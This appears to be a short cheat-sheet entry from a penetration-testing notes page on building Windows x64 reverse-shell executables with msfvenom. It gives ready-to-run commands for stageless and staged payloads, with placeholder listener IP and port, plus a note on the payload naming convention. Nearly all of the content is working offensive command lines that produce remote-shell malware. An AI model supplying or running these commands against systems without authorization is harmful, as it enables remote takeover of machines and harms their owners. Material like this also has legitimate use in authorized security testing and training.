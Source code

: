 Generate a Windows x64 Reverse Shell in an exe format

stageless payload
 ```bash
msfvenom -p windows/x64/shell_reverse_tcp -f exe -o stageless-shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

As staged payloads have other forward slash (/).
```bash
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```

The exception to slash (/) convention is on Windows 32bit targets where the arch is not specified. e.g.:
```bash
windows/shell_reverse_tcp
```

